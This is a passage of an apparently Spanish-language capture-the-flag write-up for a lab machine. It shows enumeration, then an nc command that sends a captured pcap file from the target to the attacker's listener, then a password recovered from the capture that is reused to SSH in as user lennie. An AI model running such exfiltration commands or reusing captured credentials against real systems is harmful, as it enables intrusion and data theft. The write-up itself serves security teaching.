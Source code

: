 **2. What are the contents of user.txt?**

Antes de poder obtener la bandera de usuario, necesitamos saber quiénes son los usuarios del sistema. Podemos cambiar nuestro directorio actual a /home y enumerar los directorios para hacer esto.

```
  cd /home
$ ls
lennie
$ 

```

No podemos acceder al directorio de Lennie, por lo que debemos encontrar una forma de acceder a su cuenta. Cuando enumeramos los archivos anteriormente, había un directorio llamado "incidentes". Veamos qué hay allí.

```
$ cd /incidents
$ ls
suspicious.pcapng
$ 

suspicious.pcapng
$ nc 10.9.0.72 3333 < suspicious.pcapng


/////////

└─$ nc -lnvp 3333 > suspicious.pcapng

listening on [any] 3333 ...
connect to [10.9.0.72] from (UNKNOWN) [10.10.129.12] 57376

```

Este archivo puede contener algo que necesitamos, para comprobarlo en Wireshark. Para ello, utilizaremos el siguiente comando:

```

──(kali㉿kali)-[~/Documents/Seguridad de redes/Startup]
└─$ wireshark suspicious.pcapng 


```

Si hacemos clic derecho en un paquete y seleccionamos Follow>TCP Stream, podemos ver que se realizan algunas acciones en la máquina de destino en los flujos dos y siete. En el flujo siete, podemos ver que se ingresan comandos sudo como www-data y que se ingresa una contraseña incorrecta. Probemos esta contraseña para Lennie.

c4ntg3t3n0ughsp1c3

```
ssh lennie@10.10.72.219
```
